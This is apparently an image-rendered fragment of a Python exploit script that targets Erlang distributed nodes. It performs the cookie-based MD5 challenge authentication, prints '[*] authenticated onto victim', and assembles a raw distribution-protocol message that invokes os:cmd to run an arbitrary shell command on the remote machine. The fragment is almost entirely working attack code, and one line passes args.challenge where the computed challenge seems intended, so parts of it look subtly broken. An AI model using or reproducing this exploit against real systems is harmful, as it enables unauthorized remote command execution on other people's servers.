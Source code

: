 ````python
data = sock.recv(4096)
(length, tag, flags, challenge, creation, nlen) = unpack('!HcQIIH', data[:21])
assert(tag == 'N')
assert(nlen + 19 == length)
challenge = '%u' % challenge

def send_challenge_reply(cookie, challenge):
    m = md5()
    m.update(cookie)
    m.update(challenge)
    response = m.digest()
    return pack('!HcI', len(response)+5, 'r', args.challenge) + response

sock.sendall(send_challenge_reply(args.cookie, challenge))

data = sock.recv(3)
if len(data) == 0:
    print('wrong cookie, auth unsuccessful')
    sys.exit(1)
else:
    assert(data == '\x00\x11\x61')
    digest = sock.recv(16)
    assert(len(digest) == 16)

print('[*] authenticated onto victim')

def erl_dist_recv(f):
    hdr = f.recv(4)
    if len(hdr) != 4:
        return
    (length,) = unpack('!I', hdr)
    data = f.recv(length)
    if len(data) != length:
        return
    data = data[1:]

    while data:
        (parsed, term) = erl.binary_to_term(data)
        if parsed <= 0:
            print('failed to parse erlang term, may need to peek into it')
            break
        yield term
        data = data[parsed:]

def encode_string(name, type=0x64):
    return pack('!BH', type, len(name)) + name

def send_cmd_old(name, cmd):
    data = (unhexlify('70836804610667') +
            encode_string(name) +
            unhexlify('0000000300000000006400006400037265') +
            unhexlify('7883680267') +
            encode_string(name) +
            unhexlify('0000000300000000006805') +
            encode_string('call') +
            encode_string('os') +
            encode_string('cmd') +
            unhexlify('6c00000001') +
            encode_string(cmd, 0x6b) +
            unhexlify('6a') +
            encode_string('user'))

    return pack('!I', len(data)) + data
````